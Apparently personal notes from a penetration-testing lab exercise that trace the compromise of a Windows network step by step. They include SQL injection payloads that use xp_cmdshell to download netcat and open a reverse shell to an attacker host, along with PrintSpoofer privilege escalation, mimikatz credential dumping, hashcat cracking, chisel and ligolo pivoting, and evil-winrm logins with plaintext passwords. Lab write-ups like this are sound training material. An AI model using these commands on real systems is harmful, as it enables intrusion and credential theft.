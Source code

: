 ### 192.168.188.121

#### SQL Injection:
http://192.168.188.121/login.aspx

o' ; exec xp_cmdshell "powershell.exe wget http://192.168.45.156:8000/nc64.exe -OutFile c:\\Users\Public\\nc.exe" ; --

o' ; exec xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe 192.168.45.212 4445" ; --

#### priv esc

printspoofer

curl http://192.168.45.156:8000/print.exe -o print.exe

print.exe -i -c cmd.exe

executed mimikatz and found password hash of joe

#### pivot to internal network

chisel 1.8 in kali
chisel server --port 9090 --reverse  
curl http://192.168.45.184:8000/chisel1.8.exe -o chisel.exe

chisel.exe client 192.168.45.184:9090 R:socks

sudo ip tuntap add user mrjokar mode tun ligolo  
sudo ip link set ligolo up
  
./proxy -selfcert -laddr 0.0.0.0:9001
./agent -connect 192.168.45.193:9090 -ignore-cert

sudo ip route add 172.16.123.0/23 dev ligolo

### 172.16.243.11

#### Initial Access
loggedin with joe user using evil-winrm
proxychains -q evil-winrm -i 172.16.243.11 -u joe -p 'Flowers1' 

found password hashes in log file

cracked using
hashcat -m 1000 nthashes.txt /usr/share/wordlists/rockyou.txt -r cap3.rule --force


./mim.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"


### 172.16.243.83

#### Initial Access
loggedin with joe user using evil-winrm
proxychains -q evil-winrm -i 172.16.243.83 -u wario -p 'Flowers1' 

#### priv esc

changed exe in c:\developmentexecutables

sprayed password using spraypassword.ps1 and found yoshi as admin on 82

### 172.16.243.82

started rdp connection to 82 as yoshi user and found the flags

### 172.16.243.12

started rdp connection as yoshi user

escalated privilige by changing c:\TEMP\backup.exe

found password of leon using mimikatz

### 172.16.243.13

loggdin using winrm with leon (domain admin)

### 172.16.243.10

loggedin using evilwinrm with leon
found credentials.txt with password of web01


### 192.168.231.120

logged in with offsec password and credentials

switched to root with su root and offsec's pasword





